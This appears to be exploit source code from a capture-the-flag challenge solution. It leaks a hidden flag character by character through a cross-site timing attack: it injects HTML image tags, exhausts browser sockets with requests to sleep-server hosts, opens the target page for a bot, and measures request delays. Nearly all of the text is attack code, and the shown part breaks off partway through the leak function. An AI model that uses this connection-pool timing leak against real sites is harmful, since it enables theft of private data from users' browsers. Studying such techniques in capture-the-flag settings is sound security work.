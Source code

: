 ```html

// Reduce the alphabet using a hash (#) in the URL
if (location.hash) {
alphabet = alphabet.slice(alphabet.indexOf(location.hash.slice(1)));
}

// Funtion to leak chars
const leak = async (c) => {
// Prepare post with known flag and the new char
let payload = `${known + c}`;
// Inject as many <img as possible
// you need to respect the CSP and create URLs that are different
for(let i = 0; payload.length < 2048; i++) {
payload += `<img src=js/purify.js?${i.toString(36)}>`;
}

// Inject HTML
$("#create input[type=text]").value = payload;
$("#create").submit();
await new Promise(r => setTimeout(r, 1000));

// Remove post with index 0
$("#remove").submit();
await new Promise(r => setTimeout(r, 500));

let deltas = [];

// Try each char 3 times
for (let i = 0; i < 3; i++) {
const SOCKET_LIMIT = 255;
// you will need a custom server that works like num.sleepserver.com/sleep/delay
// needed to freeze the blocked sockets, and they have to all be on different origins
// Check https://www.npmjs.com/package/sleep-server using subdomains DNS wildcard
const SLEEP_SERVER = i => `http://${i}.sleepserver.com/sleep/60`;

const block = async (i, controller) => {
try {
return fetch(SLEEP_SERVER(i), { mode: "no-cors", signal: controller.signal });
}
catch(err) {}
};

// block SOCKET_LIMIT sockets
const controller = new AbortController();
for (let i = 0; i < SOCKET_LIMIT; i++) {
block(i, controller);
}

// Make the bot access the page with the posts
window.open("https://safelist.ctf.sekai.team/?" + Math.random().toString(36).slice(2), "pwn");
await new Promise(r => setTimeout(r, 500));

// start meassuring time to perform 5 requests
let start = performance.now();
await Promise.all([
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" }),
fetch("https://example.com", { mode: "no-cors" })
]);
let delta = performance.now() - start;
document.title = delta;
```